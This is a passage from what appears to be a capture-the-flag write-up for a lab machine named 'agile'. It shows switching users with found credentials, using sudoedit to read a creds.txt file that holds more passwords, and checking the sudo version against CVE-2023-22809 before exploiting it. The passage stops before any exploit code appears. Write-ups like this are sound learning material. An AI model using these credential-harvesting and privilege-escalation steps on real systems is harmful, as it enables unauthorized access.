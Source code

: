 ```html
     <td>agile</td>
    <td>edwards</td>
    <td>d07867c6267dcb5df0af</td>
```

`edwards:d07867c6267dcb5df0af`

```bash
corum@agile:~$ su edwards
Password: 
edwards@agile:/home/corum$ 
```

## Privilege escalation through `sudo` vulnerability

The `su` is successful, and we now have 1 more user's account to work with. Checking this account's privileges, we see we can perform a `sudo` as dev_admin:

```
edwards@agile:/home/corum$ sudo -l
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

This `/app/app-testing/tests/functional/creds.txt` is very desirable based on the name, and is only accessible by dev_admin. Upon running:

```
edwards@agile:/home/corum$ sudo -u dev_admin sudoedit /app/app-testing/tests/functional/creds.txt
```

![Ed's Creds 2](Images/EdCred2.png)

We see in a nano editor some more credentials for edwards.

`edwards:1d7ffjwrx#$d6qn!9nndqgde4`

The credentials don't work for any user on the system; perhaps they are utilized for the google chrome debugging session?

Searching for problems with `sudoedit`, I quickly find a very recent CVE, [CVE-2023-22809](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22809). This CVE was released in under two months from the time of writing. Affected versions are 1.8.0 through 1.9.12.p1, so first we must check this:

```
edwards@agile:/home/corum$ sudo -V
Sudo version 1.9.9
Sudoers policy plugin version 1.9.9
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.9
Sudoers audit plugin version 1.9.9
```
